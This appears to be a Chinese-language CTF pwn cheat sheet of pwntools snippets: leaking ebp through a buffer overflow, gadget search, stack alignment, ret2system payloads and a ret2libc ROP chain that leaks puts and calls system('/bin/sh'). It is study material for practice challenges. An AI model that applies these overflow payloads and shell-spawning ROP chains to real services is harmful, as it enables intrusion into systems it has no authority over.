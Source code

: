 ## scanf用sendline, read用send
## 溢出读取ebp值
sendline 发送时\n 会占一个字符 0x4大小发 `sendline 'a'*4` 会发5个字符引发问题。

举例
```c
char s[40]; // [ebp-28h]
read(0, s, 0x30u);


// 要输出 ebp 需要 0x20 个字节这时只要覆盖最后的 00 即可输出 ebp，read时用send,不用sendline
// 如果是scanf要用 sendline
payload1 = b'A' * (0x27) + b'B'
p.send(payload1)  # not sendline
p.recvuntil("B")
original_ebp = u32(p.recv(4))
```
### 填充指定大小
```py
'a'.ljust(268, ' ')
```
## 使用默认的libc

```
elf = ELF("./canary")
libc = elf.libc
```

## find leave asm

```python
leave_ret = elf.search(asm('leave')).__next__()

pop_rdi = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = ROP(elf).find_gadget(['pop rsi'])[0]
print(hex(pop_rdi))
```
## snippets
```python
ss = lambda data: p.send(str(data))
sa = lambda delim, data: p.sendafter(str(delim), str(data))
sl = lambda data: p.sendline(data)
sls = lambda data: p.sendline(str(data))
sla = lambda delim, data: p.sendlineafter(str(delim), str(data))
r = lambda num: p.recv(num)
ru = lambda delims, drop=True: p.recvuntil(delims, drop)
itr = lambda: p.interactive()
uu32 = lambda data: u32(data.ljust(4, b'\x00'))
uu64 = lambda data: u64(data.ljust(8, b'\x00'))
leak = lambda name, addr: log.success('{} = {:#x}'.format(name, addr))
l64 = lambda: u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))
l32 = lambda: u32(p.recvuntil("\xf7")[-4:].ljust(4, b"\x00"))
```

# Stack

## 栈对齐

```python
rop = ROP(elf)
rop.raw(b'a' * (64 + 8))
rop.raw(flat(ret)) # 方式1. 加个ret即可
rop.call(system, [bin_sh]) # 栈对齐

# 方式2 不加ret 加参数 rop.call(system, [bin_sh, '0']) # 栈对齐
```
## ret2system

```sh
# ciscn_2019_es_2
elf.plt['system'] + p32(0) + binsh_addr  # 是地址不是 "/bin/sh" 字符
payload =p32(0) + p32(elf.plt['system']) + p32(0) + p32(stdin_addr+0x10) + b'/bin/sh\x00'
payload = payload.ljust(0x28, '\x00')
```

# rop

见 pwn_01_stack_03_ret2libc_x64_00_ctfhub_bypwntool_rop.py
```sh
rop = ROP('./ret2libc') # x64
rop.raw(b'A' * (144 + 8))  # 填充144 + fake_rbp(8) 个字节的数据到缓冲区中
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# rop.call 会自动 pop rdi, ret来传入参数
rop.call(puts_plt, [puts_got]) # puts_plt(puts_got, arg2, arg3, arg4, ...)
rop.call('main')  # 自动构建下一步的ret调用main函数，使程序重新运行
p.sendline(rop.chain())

# 再发送时要重新构建 rop
rop = ROP('./ret2libc')
rop.raw(b'A' * (144 + 8))
rop.call(system_addr, [binsh_addr])
```